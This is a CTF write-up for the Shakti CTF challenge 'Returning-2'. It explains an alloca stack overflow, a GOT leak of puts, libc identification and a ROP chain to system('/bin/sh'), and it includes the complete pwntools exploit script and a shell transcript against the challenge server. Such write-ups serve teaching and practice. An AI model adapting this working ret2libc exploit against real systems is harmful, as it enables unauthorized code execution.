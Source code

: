```yaml
--- 
layout: post 
title: "[Shakti CTF] Returning-2" 
date: "2021-04-05" 
categories: [Pwn, ret2sys]
author: eurus 
---
```


In this challenge we have an elf that doesn't have PIE and no canary. The file is protected with partial RELRO and with the NX flag on the stack. 

```bash
┌──(pwn)(eurus㉿warfare)-[~/…/shakti_ctf/Returning-2]                   
└─$ python3 solver.py 
[*] '/shakti_ctf/Returning-2/chall'                                                     
     Arch:     amd64-64-little                              
     RELRO:    Partial RELRO                                
     Stack:    No canary found                              
     NX:       NX enabled
     PIE:      No PIE (0x400000)
```

The following is the result of decompiling the binary program. Can be seen in this pseudocode that the binary program take as input a value used for allocate memory with the ```alloca``` function. Then read 0x78 bytes from ```stdin```. 

```c
int main(int argc, const char **argv, const char **envp)
{
  void *ptr_malloc; // rsp
  int input_len;    // [rsp+4h] [rbp-Ch] BYREF
  void *buf;        // [rsp+8h] [rbp-8h] BYREF

  initialize(argc, argv, envp);
  printf("Enter length of input:");
  __isoc99_scanf("%d", &input_len);
  puts("Enter text:");
  ptr_malloc = alloca(16 * ((input_len + 30LL) / 0x10uLL));
  buf = (void *)(16 * (((unsigned __int64)&buf + 7) >> 4));
  read(0, buf, 0x78uLL);
  puts("Goodbye!");
  return 0;
}
```

Using gdb with 16 as lenght of input I have found with the use of cyclic that at offset 48 we have the saved ebp and after is present he return address saved in the stack. The name of the challenge suggest to me that I have to make a ret2libc. 

At this point with a payload like this:

```python
payload = b'A'*48+p64(ebp)+p64(NEW_RET_ADDRESS)
```

I can redirect the flow of the executable. In order to make a ret2libc attack I need to know where the libc is mapped in the process space, what version of glibc is used and finally I need to have the possibility to redirect the flow of the binary program (payload above). 

So now we need to leak the libc base address in order to rop to the function  ```system('/bin/sh')```. The library pwntools make this really easy.


```python
rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8) #main address
payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))
```

This script create a rop chain that call the puts and make him print his position inside the process space, finally recall the main function.
After receive the value we make some magic trick for unpack the address leaked and print it. 

With this address, taking the last 12bit (I know, I am treating it as if PIE and ASLR are active), we can search in the glibc database search. Inserting the function name and the last 12bit the website lists for us the version of the possible version of libc. For the server I have found ```libc6_2.27-3ubuntu1.4_amd64.so``` as a possible library used.

```python
libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')
libc.address = addr - libc.symbols['puts']
```

Importing the library in the script we can calculate tha base address af the libc inside the address space of the binary program. Now we need to craft another rop chain to call the ```system('/bin/sh')```

```python
rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])
```

In this case i have not really understand why i need to call puts before the system for avoid the server to crash in a segmentation fault. Maybe for reallign the stack, but the server crash also using a ret gadget in order to realign the stack (so i dunno at the moment). 

So at the end this is the script that i wrote:


```python
from pwn import *

context.binary = elf = ELF('./chall')

#p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x40082e')
p = remote('34.121.211.139', 3333)

p.recvuntil('Enter length of input:')
p.sendline('16')

p.recvuntil('Enter text:\n')

ebp = 0x0

rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call(0x4007A8)

payload = b'A'*48+p64(ebp)+rop.chain()

p.sendline(payload)

log.info(str(p.recvuntil('\n')))
addr = u64(p.recvuntil('\n').strip().ljust(8,b'\x00'))
log.info(str(hex(addr)))

libc = ELF('./libc6_2.27-3ubuntu1.4_amd64.so')

libc.address = addr - libc.symbols['puts']

rop = ROP(libc)
log.info(str(hex(libc.address)))
rop.call('puts', [next(libc.search(b'/bin/sh\x00'))])
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

p.recvuntil('Enter length of input:')

p.sendline('16')

p.recvuntil('Enter text:\n')

payload = b'A'*48+p64(ebp)+rop.chain()
p.sendline(payload)

p.interactive()
```

and this is its execution!

```text
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2]
└─$ python3 solver.py 
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 34.121.211.139 on port 3333: Done
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/chall'
[*] b'Goodbye!\n'
[*] 0x7f3218872aa0
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Returning-2/libc6_2.27-3ubuntu1.4_amd64.so'
[*] 0x7f32187f2000
[*] Switching to interactive mode
Goodbye!
/bin/sh
$ ls
chall
flag.txt
libc-2.27.so
run.sh
$ cat flag.txt
shaktictf{all0c4_the_m1ghty!}
```
